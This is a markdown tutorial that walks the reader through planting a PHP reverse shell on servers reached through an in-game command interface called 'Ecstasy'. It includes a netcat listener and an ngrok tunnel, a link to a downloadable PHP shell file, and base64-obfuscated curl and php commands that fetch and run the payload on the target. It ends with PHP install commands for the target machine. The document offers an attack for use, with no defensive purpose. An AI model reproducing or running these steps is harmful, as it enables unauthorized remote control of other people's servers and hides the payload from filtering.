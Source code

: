 # Simplest Reverse Shell Tutorial (Supports Some Linux and Some Windows Servers)

## On Your Own Computer
1. **Get Netcat**  
   - For Windows: [Download Netcat](https://eternallybored.org/misc/netcat/netcat-win32-1.12.zip)  
   - For Linux or macOS: Find and install the appropriate files for your OS.

2. **Get Ngrok and Set Up**  
   - [Download and setup Ngrok](https://ngrok.com)

3. **Start Ngrok**  
```ngrok tcp 4444```


4. **Start Netcat**  
```nc -lvp 4444```


5. **Download and Edit PHP File**
   - [Download the PHP file](https://files.catbox.moe/s69sex.php) and edit the IP and port to be the Ngrok one.
   - Reupload the edited file to [catbox.moe](https://catbox.moe).

6. **Convert URL to Base64**
   - Use [base64encode.org](https://www.base64encode.org/) to convert the URL to Base64.

## In Game
7. **Copy and Paste the Command into Ecstasy**
   - While logged into Ecstasy, use the command below, replacing `{BASE64 GOES HERE}` with the Base64 link:
```curl -O $(echo "{BASE64 GOES HERE}" | base64 --decode)```


8. **Encode Filename and Extension to Base64**
   - Encode the filename and extension that catbox.moe gives in the URL to Base64.

9. **Run the PHP Script**
 ```php $(echo "{FILE NAME BASE64}" | base64 --decode)```
 - If there are errors, the server might not have PHP installed. See below for installation instructions.

## Install PHP on Linux Servers

**To get the distro, use the command:**
```cat /etc/os-release```

### Ubuntu/Debian
```apt install php```

### Fedora
```dnf install php -y```

### Arch
```pacman -S php```


# Duck Notes
![info](https://r2.e-z.host/1aef6b94-3653-4c51-8fef-6587df7580f5/qos28fmh.png)
